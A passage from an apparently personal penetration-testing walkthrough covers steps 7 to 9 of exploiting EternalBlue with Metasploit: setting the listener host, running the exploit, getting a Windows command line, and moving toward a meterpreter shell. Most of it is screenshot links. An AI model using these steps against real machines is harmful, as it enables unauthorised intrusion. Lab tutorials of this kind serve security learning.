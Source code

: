     set lhosts <DOMAIN,IP,HOST>

<br>

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/metasploit/metasploit7.png)

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/metasploit/metasploit7a.png)

    Step 8:
    After setting all necessary options I can run the exploit by entering 
    the following:

    run

<br>

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/metasploit/metasploit8.png)

We achieved access to the machine that is vulnerable to Eternal Blue and have a windows command line. 

    Step 9:
    We want to upgrade our command line in the windows machine to a 
    meterpreter shell. This will give us more options to interact with the 
    system. 
